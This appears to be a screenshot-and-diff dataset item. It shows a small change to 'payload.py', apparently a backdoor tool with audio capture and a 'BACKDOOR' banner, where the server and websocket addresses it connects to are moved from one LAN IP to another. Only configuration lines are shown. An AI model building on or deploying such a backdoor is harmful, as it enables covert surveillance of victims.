

final example

Changed region(s): [[0.0, 0.0, 1.0, 0.9925], [0.0311, 0.9925, 0.0934, 1.0]]

diff --git a/payload.py b/payload.py
@@ -15,11 +15,11 @@ import threading
 from scipy.io.wavfile import write
 import sounddevice as sd
 import sys
-SERVER_URL = "192.168.88.104:2020"
-WEBSOCKET_URL="ws://192.168.88.104:8765"
-WEBSOCKET_AUDIO="ws://192.168.88.104:8766"
+SERVER_URL = "192.168.88.101:2020"
+WEBSOCKET_URL="ws://192.168.88.101:8765"
+WEBSOCKET_AUDIO="ws://192.168.88.101:8766"
 PORT=12345
-IP_ADDRESS="192.168.88.104"
+IP_ADDRESS="192.168.88.101"
 banner = r"""
 ██████╗  █████╗  ██████╗██╗  ██╗██████╗  ██████╗  ██████╗ ██████╗ 
 ██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗██╔═══██╗██╔══██╗
